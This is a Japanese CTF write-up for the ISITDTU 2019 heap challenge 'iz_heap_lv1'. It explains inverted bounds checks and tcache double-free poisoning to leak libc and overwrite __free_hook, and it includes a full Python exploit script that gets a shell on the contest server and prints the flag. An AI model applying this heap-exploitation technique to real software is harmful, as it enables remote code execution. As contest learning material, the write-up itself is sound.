 # [pwn 395pts] iz_heap_lv1 - ISITDTU CTF 2019
64ビットでPIE以外有効です。
```
$ checksec -f iz_heap_lv1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes	0		2	iz_heap_lv1
```
ヒープ系問題です。
最初にnameを入力し、その後サイズを指定してadd, edit, delete, show nameができます。editでは一度freeされてもう一度新しいサイズでmallocされます。show nameではグローバル変数のnameを表示しますが、これを変更することもできます。addでmallocしたデータは表示できないので、何らかの形でnameにlibcアドレスを書き込む必要がありそうです。
さて、deleteやeditを見ても一見脆弱性はなさそうですが、よくアセンブリを見るとサイズチェックやインデックスチェックの大なりと小なりが逆になっていることが分かります。したがって、任意のサイズで確保でき、任意のインデックスにあるポインタをfreeできます。addされたデータへのポインタはbssセクションにある配列に書き込まれているのですが、そのすぐ後にnameがあります。したがって、nameに偽のポインタを入れればdeleteでfreeできます。
まずnameにnameの少し先を指すポインタを入れます。そして、その先に偽のチャンクを置いておけばdeleteでfreeしたときにそこの(nameの少し先の)アドレスがtcacheに入ります。
```
tcache --> name+delta --> ...
```
これでヒープのアドレスをリークできますが、それより重要なのは今回はnameが変更できるということです。したがって、freeされた場所に書き込めるので実質UAFがあります。よく考えればここでtcacheのポインタをGOTに向ければ簡単なのですが、なぜか今回は偽の巨大なチャンクを作ってunsorted binからアドレスをリークするというやや遠回りな方法を取っています。
libcのアドレスが分かれば同じ原理で`__free_hook`を書き換えるだけです。

```python
from ptrlib import *

def add(size, data):
    sock.sendlineafter("Choice: \n", "1")
    sock.sendlineafter("size: ", str(size))
    sock.sendafter("data: ", data)

def edit(index, size, data):
    sock.sendlineafter("Choice: \n", "2")
    sock.sendlineafter("index: ", str(index))
    sock.sendlineafter("size: ", str(size))
    sock.sendafter("data: ", data)

def delete(index):
    sock.sendlineafter("Choice: \n", "3")
    sock.sendlineafter("index: ", str(index))

def show_name(name=None):
    sock.sendlineafter("Choice: \n", "4")
    if name is None:
        sock.sendlineafter("(Y/N)", "N")
    else:
        sock.sendlineafter("(Y/N)", "Y")
        sock.sendafter("name: ", name)
    sock.recvuntil("Name: ")
    return sock.recvline()

libc = ELF("./libc.so.6")
#sock = Process("./iz_heap_lv1")
sock = Socket("165.22.110.249", 3333)
addr_list = 0x602060
addr_name = 0x602100
libc_main_arena = 0x3ebc40
delta = 0x60

# create fake chunk
fake_list  = p64(addr_name + 0x20) + p64(0) # 20, 21
fake_chunk = p64(0) + p64(0x31)
sock.sendlineafter("name: ", fake_list + fake_chunk)

# free fake chunk
add(0x20, "AAA") # 0
delete(0)
delete(20)
addr_heap = u64(show_name("A" * 0x20)[0x20:]) + 0x30
logger.info("addr heap = " + hex(addr_heap))

# double free for creating fake chunk
add(0x30, "AAA") # 0: addr_heap
add(0x40, "AAA") # 1: addr_heap + 0x40
add(0x50, "AAA") # 2: addr_heap + 0x90
add(0x60, "/bin/sh\x00") # 3
show_name(p64(addr_heap))
delete(0)
delete(20)
add(0x30, p64(addr_name + 0x20 + 0xa00)) # 0
add(0x30, p64(addr_heap)) # 4: dummy
add(0x30, p64(0) + p64(0x21)) # 5
fake_list  = p64(addr_heap + 0x40) + p64(addr_name + 0x20) # 20, 21
fake_chunk = p64(0) + p64(0xa11)
show_name(fake_list + fake_chunk)
delete(1)
delete(20)
add(0x40, p64(addr_name + 0x20 + 0xa00 + 0x20)) # 1
add(0x40, p64(addr_heap)) # 6: dummy
add(0x40, p64(0) + p64(0x21)) # 7

# libc leak
delete(21)
libc_base = u64(show_name("A" * 0x20)[0x20:]) - libc_main_arena - delta
logger.info("libc base = " + hex(libc_base))

# double free for overwriting __free_hook
show_name(p64(addr_heap + 0x90))
delete(2)
delete(20)
add(0x50, p64(libc_base + libc.symbol("__free_hook"))) # 2
add(0x50, "dummy") # 8
add(0x50, p64(libc_base + libc.symbol("system"))) # 9

# get the shell!
delete(3)

sock.interactive()
```

よきかな。
```
$ python solve.py 
[+] __init__: Successfully connected to 165.22.110.249:3333
[+] <module>: addr heap = 0x82a290
[+] <module>: libc base = 0x7f98498e8000
[ptrlib]$ cat /home/iz_heap_lv1/flag
ISITDTU{d800dab9684113a5d6c7d2c0381b48c1553068bc}[ptrlib]$
```

# 感想
半年前なら確実に解けなかったと考えると成長を実感できます。
